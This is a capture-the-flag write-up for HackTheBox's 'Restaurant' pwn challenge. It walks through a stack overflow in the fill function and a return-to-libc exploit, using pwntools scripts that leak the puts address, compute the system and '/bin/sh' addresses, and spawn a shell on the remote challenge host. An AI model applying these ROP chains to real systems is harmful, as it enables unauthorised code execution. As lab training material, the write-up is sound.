 
# Restaurant - Writeup

**Platform:** *HackTheBox*

**Category:** *pwn*

**Difficulty:** *easy*

**Link:** https://app.hackthebox.com/challenges/Restaurant


## Solution

Basic binary file information first:

<p align="center">
<img src="../resources/HackTheBox/Restaurant0_0.png" alt="Output of file command"/>
</p>
<p align="center">
<img src="../resources/HackTheBox/Restaurant0_1.png" alt="Output of checksec command"/>
</p>

There are two functions in the code: `fill` and `drink`. But only the `fill` looks interesting:

<p align="center">
<img src="../resources/HackTheBox/Restaurant1_0.png" alt="Disassembly of fill function"/>
</p>
<p align="center">
<img src="../resources/HackTheBox/Restaurant1_1.png" alt="Pseudo-C fill function"/>
</p>

There is no function with flag, so I decided to try to get the shell on the remote host using **return-to-libc** technique.
First, I found the address where return address is stored:

<p align="center">
<img src="../resources/HackTheBox/Restaurant2_0.png" alt="Python code for stack based buffer overflow"/>
</p>
<p align="center">
<img src="../resources/HackTheBox/Restaurant2_1.png" alt="Result of buffer overflow"/>
</p>

The return address starts at byte 40.
The algorithm to reproduce the technique is:
1. Get `puts@plt` and `puts@got` addresses
2. Find the address of `pop rdi; ret` because I needed it to give an argument to the next function
3. Call the `puts@plt` function with `puts@got` address as an argument
4. Return to any program function (I chose main) to avoid program crashing.
5. Get the address of `puts` function in `libc.so.6`

Here I found a "gadget" with `ROPgatgets --binary ./restaurant`:

<p align="center">
<img src="../resources/HackTheBox/Restaurant3.png" alt="pop rdi; ret gadget address"/>
</p>

And I wrote the following script:
```python
from pwn import *

elf = context.binary = ELF('./restaurant')
context.log_level = 'debug'

p = process('./restaurant')

plt = elf.symbols['puts']
got = elf.got['puts']
main = elf.symbols['main']

p.sendlineafter(b'>', b'1')

payload = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(main)
p.sendlineafter(b'>', payload)
p.interactive()
```

After using this script stack looks like this:

```
|---------------------|
|AAAAAAAAAAAAAAAAAAAAA|
|AAAAAAAAAAAAAAAAAAAAA|
|AAAAAAAAAAAAAAAAAAAAA|
|AAAAAAAAAAAAAAAAAAAAA|
|---------------------|
|pop rdi; ret  address|
|---------------------|
|  puts@got  address  |
|---------------------|
|  puts@plt  address  |
|---------------------|
|    main  address    |
|---------------------|
```

Initially, the execution flow goes to the `pop rdi` address, which pops the `puts@got` address from the stack and return to the `puts@plt` address with the `puts@got` as a function argument. After the `puts@plt` is called it resolves the address of the `puts` in the `libc.so.6` and saves it in the `.got` section, from where program retrieves it and prints in console. Finally, the program flow returns to main function:

<p align="center">
<img src="../resources/HackTheBox/Restaurant4.png" alt="Result of the script"/>
</p>

Slight changes in the previous script to show `puts` address in hex format:

```python
from pwn import *

elf = context.binary = ELF('./restaurant')
context.log_level = 'debug'

p = process('./restaurant')

plt = elf.symbols['puts']
got = elf.got['puts']
main = elf.symbols['main']

p.sendlineafter(b'>', b'1')

payload = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(main)
p.sendlineafter(b'>', payload)

result = p.recvline_startswith(b'Enjoy your ').strip()
puts = result[-6:]
puts = puts.ljust(8, b'\x00')
puts = u64(puts)

print(hex(puts))
p.interactive()
```
<p align="center">
<img src="../resources/HackTheBox/Restaurant5.png" alt="Result of the script"/>
</p>

The next step is to find the base of `libc.so.6`, `system` function in the library and `/bin/sh` string in the library:

```python
from pwn import *

elf = context.binary = ELF('./restaurant')
context.log_level = 'debug'

p = process('./restaurant')

plt = elf.symbols['puts']
got = elf.got['puts']
main = elf.symbols['main']

p.sendlineafter(b'>', b'1')

payload = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(main)
p.sendlineafter(b'>', payload)

result = p.recvline_startswith(b'Enjoy your ').strip()
puts = result[-6:]
puts = puts.ljust(8, b'\x00')
puts = u64(puts)

libc = ELF('./libc.so.6')
libc_puts = libc.symbols['puts']
base = puts - libc_puts
libc_system = base + libc.symbols['system']
binsh = base + next(libc.search(b'/bin/sh'))

print(hex(libc_system))
print(hex(binsh))
p.interactive()
```
<p align="center">
<img src="../resources/HackTheBox/Restaurant6.png" alt="Result of the script"/>
</p>

Now everything is ready to fully exploit the program and get the shell:
```python
from pwn import *

elf = context.binary = ELF('./restaurant')
context.log_level = 'debug'

p = remote('94.237.53.203', 42292)

plt = elf.symbols['puts']
got = elf.got['puts']
fill = elf.symbols['fill'] # I used the fill function as the return target to keep the script shorter and easier to follow

p.sendlineafter(b'>', b'1')

payload = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(fill)
p.sendlineafter(b'>', payload)

result = p.recvline_startswith(b'Enjoy your ').strip()
puts = result[-6:]
puts = puts.ljust(8, b'\x00')
puts = u64(puts)

libc = ELF('./libc.so.6')
libc_puts = libc.symbols['puts']
base = puts - libc_puts
libc_system = base + libc.symbols['system']
binsh = base + next(libc.search(b'/bin/sh\x00'))

get_shell = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(0x4010a3) + p64(binsh) + p64(libc_system)
p.sendlineafter(b'>', get_shell)

p.interactive()
```
<p align="center">
<img src="../resources/HackTheBox/Restaurant7.png" alt="The flag"/>
</p>

